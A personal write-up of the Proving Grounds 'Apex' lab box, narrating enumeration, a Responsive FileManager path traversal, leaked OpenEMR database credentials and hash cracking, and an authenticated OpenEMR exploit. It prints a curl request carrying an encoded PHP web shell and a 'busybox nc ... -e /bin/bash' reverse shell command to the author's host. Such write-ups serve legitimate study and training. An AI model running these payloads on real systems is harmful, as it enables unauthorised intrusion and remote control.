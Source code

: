 ```yaml
---
layout: writeup
title: Apex - Proving Grounds
date: 2024-07-21 13:32:20 +0300
description: A Writeup of the Apex Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi]
---
```


Here's another writeup for Apex, an Intermediate Proving Grounds box I saw on the [LainKusunagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). I take note that the community has rated this Very Hard. As usual, I get started with an nmap scan (trying nmap Automator this time) and a quick search of the IP address in the URL bar in case there is a web server on port 80. It looks like there is:

![Apex_1.png](/assets/images/Apex/Apex_1.png){: .responsive-image}

Might as well run a directory scan on that as well while I look around. I see a few emails which could be usernames:

![Apex_2.png](/assets/images/Apex/Apex_2.png){: .responsive-image}

I also see `contact@apex.offsec`. I try a contact form, but it returns the error: "The form action property is not set!" I'm not expecting an SQLi point there. It seems most of the website is all on this one page, but after checking the top bar, I see that Scheduler is not shown on the main page, so I click that, and it takes me to a login page: 

![Apex_3.png](/assets/images/Apex/Apex_3.png){: .responsive-image}

Interesting. I wonder if that URL will show up on the directory scan. Time to check for default creds and exploits. I try a few options for default creds, but I can't get them working. At this point I get the nmap scan back and see: 

```
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

So we have mysql and samba to check out as well. I am able to find a samba share called docs and login using a null username, but it only has two PDFs that don't seem to have anything interesting. I find the same docs later here: `http://192.168.216.145/source/Documents/` but I can't upload a file through SMB to try and execute from that URL. I can't get anything with the MySQL db. The directory search also doesn't seem to find anything interesting, so I focus on web app. It would be better if I could find a version because exploit-db returns 37 entries for exploits. I guess I can started with the unauthenticated ones. 

I tried a few, but I couldn't get anything working. The directory scan also found a directory called `/filemanager` which I intially assumed was somehow a part of the same web service, just because it was nestled within all of the other results. I started to think that maybe it was a a second service running on the same port. I tried uploading a shell, but I couldn't get it to upload, even when changing the filetype to phtml or altering the Mime type. So I started searching for exploits for "Responsive FileManager", again not knowing the version. I tried an RCE that I couldn't get working, but I wanted to find a proof that this might be the correct way forward, so I checked out a path traversal exploit, found [here](https://www.exploit-db.com/exploits/49359). I was able to return /etc/passwd which showed this: `white:x:1000:1000::/home/white:/bin/sh`. I know there was a potential username of wwalter for the doctor Walter White, but this would suggest that the user is actually `white`. I might return to the brute force exploit I found for OpenEMR earlier. But I can continue to check out other possible files first. I can get local.txt from this: `python3 49359.py http://192.168.216.145 PHPSESSID=39l4h8u9blbg9l1e5nmghc56e2 /home/white/local.txt`

I find this exploit which supposedly lets me upload a shell using curl: 

But this returns "forbiden" : `curl -s "http://192.168.216.145/filemanager/execute.php?action=create_file" -d "path=cmd.php&path_thumb=../thumbs/.txt&name=1.txt&new_content=%3c%3f%70%68%70%20%65%63%68%6f%20%73%68%65%6c%6c%5f%65%78%65%63%28%24%5f%47%45%54%5b%27%63%27%5d%29%3b%3f%3e” -H “Cookie: PHPSESSID=39l4h8u9blbg9l1e5nmghc56e2"` 

I try to upload the file with php5, php7, phmtl, and pHP extensions, but I get a 'forbiden' response every time. So the file manager path might not be the path to take, but maybe I can still find a config file with a password which could let me authenticate to the web app. I try this for a while, but I can't seem to get anything at all except `/etc/passwd` and the local.txt file. I go through the open source github pages for both [Responsive FileManager](https://github.com/trippo/ResponsiveFilemanager/tree/master), which showed that it's possible extensions are allow-listed rather than deny-listed, meaning I'm unlikely to upload a working shell, and [OpenEMR](https://github.com/openemr/openemr). I can't seem to find any way for get a OpenEMR file through the filemanager RFI exploit. 

At this point I tried a bunch of different things, in particular trying to find any config files or anything with a password. Unfortunately I could not, and gave up to look for a walkthrough. I'm still a little confused about how the exploit is supposed to actually work. I looked up 3 walkthroughs, two ([1](https://kashz.gitbook.io/proving-grounds-writeups/pg-boxes/apex/5-80-filemanager-9.13.4), [2](https://al1z4deh.medium.com/proving-grounds-apex-834e61a9fc03)) of which modified the [code](https://www.exploit-db.com/exploits/49359) I was already using, one of which did not. The thing is, they modify the code so that the returned file is pasted into Documents, but the [third walkthrough](https://medium.com/@jserna4510/proving-grounds-apex-walkthrough-c46ff7935294) evidently didn't need to, and in my own experience trying a bunch of different things, some those files did show up there, and I definitely didn't modify the code. I could not replicate, but I am certain. I mention it because it appears the linked walkthrough didn't need to either, though it also suggest the file we needed to find `/var/www/openemr/sites/default/sqlconf.php` would eventually be found through the SMB server, which is not necessarily the case. It's understandable though that author may not have found the directory where the smb server pointed to: `/var/www/html/source/Documents` or the web directory: `http://192.168.216.145/source/Documents/`. I am certain that web directory showed the /etc/passwd file, the local.txt file, and others that I'd used the RFI exploit for, and again, I never modified the exploit. I'm not sure exactly how that happened, but eventually I gave up trying to replicate, even though I do feel the third walkthrough was enough to at least validate my experience on the matter. 

Eventually I used the first two walkthroughs and edited the exploit to point `path=` on line 36 to `path=/Documents`. This allowed me to read the sqlconf.php file...psych no it didn't. 

![Apex_4.png](/assets/images/Apex/Apex_4.png){: .responsive-image}

Even though the file is shown as having a non-zero size, it opens as blank, and it downloads as 0 bytes. But I can get it from the smbserver. 

![Apex_5.png](/assets/images/Apex/Apex_5.png){: .responsive-image}

That openemr:C78maEQUIeQ turn out to be the SQL creds, and from there we can look around. We see databases "information_schema" and "openemr" and use "openemr." There are a lot of tables, but we can zero in on "users" and ultimately "users_secure." We `SELECT * FROM users_secure` and get this:

![Apex_6.png](/assets/images/Apex/Apex_6.png){: .responsive-image}

I use namethathash to determine that this is bcrypt or hashcat mode 3200. And we get a password of "thedoctor." That gives us creds of admin:thedoctor which we can use on one of the many authenticated exploits for the openemr service found earlier on. I go with [this one](https://www.exploit-db.com/exploits/45161). The command looks like this: 
`python2 45161.py http://192.168.216.145/openemr -u admin -p thedoctor -c 'busybox nc 192.168.45.235 80 -e /bin/bash'`

I get a shell for `www-data`. And I try the usual low hanging fruit like checking for SUID binaries and `sudo -l`. I run linpeas and lse.sh, but eventually retry `thedoctor` as the root password. 

![Apex_7.png](/assets/images/Apex/Apex_7.png){: .responsive-image}

And we're done. Lessons learned - this was a tough one to feel good about as far as lessons learned are concerned. I was able to enumerate and find the correct exploit, but I couldn't ultimately get it working the way it was supposed to. I'm not sure how long that would have taken without looking up a writeup. Changing the path to a different internal directory for an attack using the clipboard would not have occurred to me very quickly, and I guess I can take solace in knowing that I was probably better off looking up that step after a few hours rather than spending a ton more time finding nothing. I also needed to use python2 at one point, not python or python3. I usually do try that, but after having spent a few hours I was pretty tired by the end and double checked my syntax using the writeup. All in all, I don't feel great about this one, but I guess that's why we put the time in. 